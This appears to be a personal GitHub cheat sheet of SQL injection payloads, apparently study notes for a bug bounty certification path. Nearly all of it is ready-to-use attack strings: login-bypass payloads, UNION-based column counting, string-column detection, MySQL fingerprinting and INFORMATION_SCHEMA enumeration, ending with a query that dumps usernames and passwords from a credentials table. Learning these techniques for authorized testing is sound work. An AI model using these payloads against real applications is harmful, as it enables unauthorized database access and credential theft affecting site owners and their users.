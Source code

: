 # CBBH PATH

# SQL Injection
## Find the Vuln Query
```powershell
# Check the url after the ?raman=raman
# Check login fields
```

## Fix the Query
```powershell
-- #for comment
```

## Payloads
```powershell
' or 1=1 --
'--
```

## Detmine the number of columns
```powershell
# Using UNION. The number and the order of the columns must be the same in all queries && The data types must be compatible
cn' UNION select NULL, NULL, NULL-- -
cn' UNION select NULL, NULL, NULL, NULL-- -
UNION select NULL, NULL, NULL, NULL from raman-- -

# Using OrderBy
' order by 1-- -
```

## Finding a column containing text (Data Type)
```powershell
# In case of an error it means the column is not type string
# In case of no error it menas the column is type string
cn' UNION select NULL, 'raman', NULL, NULL-- -
UNION select username, NULL, NULL, 'raman' from raman-- -
```

## DB Enumeration
```powershell
SELECT @@version #Fingerprint MySQL with query output
SELECT SLEEP(5) #Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - #Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -	#List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - #List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -	#List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - #Dump data from a table in another database
```
